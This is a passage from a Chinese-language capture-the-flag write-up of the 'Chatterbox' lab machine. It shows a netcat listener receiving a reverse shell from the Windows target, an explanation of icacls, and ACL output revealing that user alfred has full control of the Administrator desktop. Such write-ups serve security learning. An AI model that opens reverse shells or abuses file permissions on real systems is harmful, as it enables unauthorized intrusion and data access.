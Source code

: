 
## 反弹shell

```
┌──(root💀kali)-[~/Desktop/Chatterbox]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>

```

# 提权

当前对于Administrator的桌面文件夹有完全控制权限，因此我们无需提权就可以读取root.txt

> icacls 是 Windows 操作系统中的一个命令行工具，用于管理文件和文件夹的访问控制列表 (ACL, Access Control List)。ACL 是一个表，定义了用户或组对文件或文件夹的访问权限。使用 icacls 工具，可以查看、设置、修改和备份这些权限。
> 
> 显示文件或文件夹的权限：icacls filename
> 
> 为文件或文件夹添加权限：icacls filename /grant UserName:(permissions)
> 
> 删除文件或文件夹的权限：icacls filename /remove UserName
> 
> 替换文件或文件夹的权限：icacls filename /replace UserName:(permissions)
> 
> 备份文件或文件夹的权限：icacls filename /save aclfile /t    (aclfile 是保存权限信息的文件，/t 表示包括子目录)
> 
> 恢复文件或文件夹的权限：icacls filename /restore aclfile

```
c:\Users\Administrator\Desktop>icacls ./
icacls ./
./ NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
   CHATTERBOX\Administrator:(I)(OI)(CI)(F)
   BUILTIN\Administrators:(I)(OI)(CI)(F)
   CHATTERBOX\Alfred:(I)(OI)(CI)(F)
```

![截图](6bb8bfbb3c3c76ba54dc42e521da8f5c.png)
